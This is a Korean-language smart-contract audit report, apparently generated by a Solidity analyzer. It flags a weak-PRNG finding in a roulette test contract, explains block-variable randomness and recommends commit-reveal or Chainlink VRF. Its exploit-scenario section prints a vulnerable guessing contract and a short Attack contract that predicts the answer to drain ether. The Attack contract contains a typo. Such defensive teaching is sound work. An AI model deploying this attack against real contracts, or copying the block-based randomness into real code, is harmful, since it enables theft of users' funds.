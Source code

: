 <button class='date-button'>2023-11-25</button>

# Audit Report

> 🔍 `Filename`: /Users/sikk/Desktop/Antibug/SafeDevAnalyzer/test/prng/roulette.sol
---

[<button class='styled-button'>English</button>](roulette_en.md)
<br />


<style>
    .date-button{
        color:black;
        border:none;
        font-weight: bold;
        background-color: sand;
        width: 150px;
        height: 25px;
        float: right;
        border-radius: 20px;
    }
    .styled-button{
        color: black;
        border: none;
        font-weight: bold;
        background-color: lightskyblue;
        width: 100px;
        height: 30px;
        float: right;
        border-radius: 20px;
    }
    .styled-button:hover{
        color: black;
        border: none;
        font-weight: bold;
        background-color: pink;
        width: 100px;
        height: 30px;
        float: right;
        cursor: pointer;
    }
</style>

               
<details>
<summary style='font-size: 20px;'>weak-prng</summary>
<div markdown='1'>

## Detect Results

| Detector | Impact | Confidence | Info |
|:---:|:---:|:---:|:---:|
| weak-prng | <span style='color:lightcoral'> High </span> | <span style='color:olivedrab'> Medium </span> | guess 함수는 블록 변수를 이용하여 난수를 생성합니다. IF _guess == answer |||


<br />

## Vulnerabiltiy in code:

```solidity
line 5:     function guess(uint _guess) public {

```
 ---

 ```solidity
line 13:         if (_guess == answer) {

```
 ---

 <br />

## Background:


<details> 
    <summary style='font-size: 18px;color:pink;'> 💡 블록체인에서 Randomness란? </summary><br />
    
- Randomness는 `pseudo-randomness`와 `true-randomness`로 구분할 수 있습니다.

    - `pseudo-randomness`는 결정론적 알고리즘에 의해 생성되며, 초기 시드 값을 알고 있다면 예측할 수 있습니다.
    
    - `true-randomness`는 엔트로피 소스에 의존하고 있어, 예측 불가능한 랜덤 값을 생성합니다.

- 블록체인 네트워크의 노드는 다양한 알고리즘을 이용해 `pseudo-randomness`를 생성할 수 있으며, 복권 당첨자 선정, 보상 분배, 게임에서 NFT 토큰 아이템의 희귀도, 전리품 분배 등의 시나리오에서 난수를 사용합니다.
- 그러나 블록체인은 네트워크의 모든 노드가 동일한 결론에 도달하도록 보장하기 때문에, 동일한 입력이 주어지면 컨트랙트의 출력은 항상 동일하다는 특징이 있습니다.

</details>
<br />      
    

<br />

## Description:


블록체인에서는 완전한 난수를 생성할 수 없습니다.
완전한 난수가 생성되지 않는다는 것은 난수 생성에 대한 결과를 예측할 수 있어 조작을 할 수 있다는 것을 의미합니다.

완전한 난수는 `atmospheric noise`나 `user action` 등 예측할 수 없는 외부 요인에 의존해야 하지만, 스마트 컨트랙트는 이러한 요인에 직접적으로 접근할 수 없어 완전한 난수를 생성할 수 없습니다.

특히나, 스마트 컨트랙트는 개인키 생성 등 보안 메커니즘을 위해 사용하는 경우도 있으나, 공격자가 개인 키를 예측하여 계정이나 자금에 무단으로 액세스할 수도 있습니다.

블록체인에서 난수를 생성하는 방법은 크게 두 가지로 나눌 수 있습니다.

<details> 
    <summary style='font-size: 16px;color:skyblue;'> 1. 블록체인 네트워크의 노드가 생성한 난수를 사용하는 방법 </summary><br />
   
블록 변수에는 

|  |  |  |
---|---|---
`block.basefee(uint)`|`block.chainid(uint)`|`block.coinbase()`
`block.difficulty(uint)`|`block.gaslimit(uint)`|`block.number(uint)`
`block.timestamp(uint)`|`blockhash(uint)` 


등이 있으며,

이 중 `block.difficulty`, `blockhash`, `block.number`, `block.timestamp`가 난수 생성에 주로 활용됩니다.

[Solidity Docs](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties "Reference")

블록 데이터에 의해 생성되는 난수는 일반적인 사용자가 난수를 예측할 수 있는 가능성은 제한하지만, 악의적인 채굴자는 블록 데이터를 조작하여 난수를 조작할 수 있습니다.
블록 데이터는 한 블록에서 동일한 값을 갖고 있어, 같은 블록에서 난수를 생성하면 항상 동일한 결과를 얻을 수 있습니다.
</details>
<br />


<details> 
    <summary style='font-size: 16px;color:skyblue;'> 2. 외부 난수 생성기를 사용하는 방법 </summary><br />
   
블록체인 오라클에서 난수 시드를 생성할 수 있으며, 온체인 오라클을 사용해 오프체인 데이터를 온체인에서 얻을 수 있습니다.

API 데이터와 같은 외부 randomness 소스를 가져와 컨트랙트 동작에 영향을 줄 수 있어 블록체인 변수를 사용해 난수를 생성하는 것보다 예측 불가능성을 높일 수 있지만, 오라클에 대한 신뢰도 문제가 발생할 수 있습니다.

</details>
<br />

    

<br />

## Recommendation:


- `block.hash`, `block.timestamp`를 난수 생성을 위한 소스로 사용하지 않는 것이 좋습니다.
- 참가자가 미리 값을 commit하고, 모든 commit이 제출된 후 실제 값이 공개되는 방식(`Commit-Reveal Schemes`)으로 난수를 생성하는 것이 좋습니다.
- 여러 입력을 활용해 난수를 생성하는 탈중앙화 솔루션인 `Chainlink VRF(Verifiable Random Function)`를 활용하는 것이 좋습니다.
- 하드웨어 난수 생성기(RNG)를 사용해 공격자가 예측할 수 없는 무작위 값 생성하는 것이 좋습니다.  
    

<br />

## Exploit scenario:


```solidity
contract GuessTheRandomNumber {
    constructor() payable {}
    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
 }
 ```
 
- 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성하고 있습니다.
- 사용자가 추측한 숫자가 생성된 숫자와 일치하면 `1 ether`를 획득하게 되는 컨트랙트이며, 무작위성이 도입된 것으로 보이지만 조작이 가능합니다.

```solidity
contract Attack {
    receive() external payable {}

    unction attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        guessTheRandomNumber.guess(answer);
    }
 
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 }
 ```    
 
- 공격자는 `GuessTheRandomNumber` 컨트랙트의 주소를 전달해 deploy 하여 `Attack` 컨트랙트를 생성합니다.
- attack 함수에서는 GuessTheRandomNumber 컨트랙트의 guess 로직을 동일하게 구현하여, 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성합니다.
- `GuessTheRandomNumber` 컨트랙트의 `guess` 함수가 동일한 블록에서 실행되면 `block.number`와 `block.timestamp`는 변경되지 않기 때문에 동일한 난수를 생성할 수 있게 되어, 공격자는 `1 ether`를 획득할 수 있습니다.  
    

<br />

## Real World Examples:


1. `SmartBillions ICO (2017)`: SmartBillions는 이더리움 기반의 로또 플랫폼으로, 공격자가 로또 게임 결과를 조작하여 상금 획득할 수 있었습니다.
    https://etherscan.io/address/0x5ace17f87c7391e5792a7683069a8025b83bbd85
    https://www.reddit.com/r/ethereum/comments/74d3dc/smartbillions_lottery_contract_just_got_hacked/   
     
2. `Fomo3D (2018)`: Fomo3D는 이더리움 스마트 컨트랙트 기반의 게임으로, 공격자가 게임 결과를 조작하여 상금을 획득할 수 있었습니다.
    https://etherscan.io/address/0xa62142888aba8370742be823c1782d17a0389da1
    https://medium.com/@zhongqiangc/randomness-in-smart-contracts-is-predictable-and-vulnerable-fomo3d-part-1-4d500c628191
    

<br />

## Reference:


- https://www.slowmist.com/articles/solidity-security/Common-Vulnerabilities-in-Solidity-Randomness.html
- https://medium.com/@solidity101/100daysofsolidity-072-source-of-randomness-in-solidity-smart-contracts-ensuring-security-and-7af014bfac22
- https://dev.to/natachi/attack-vectors-in-solidity-09-bad-randomness-also-known-as-the-nothing-is-secret-attack-ca9
- https://medium.com/rektify-ai/bad-randomness-in-solidity-8b0e4a393858
    

</details>

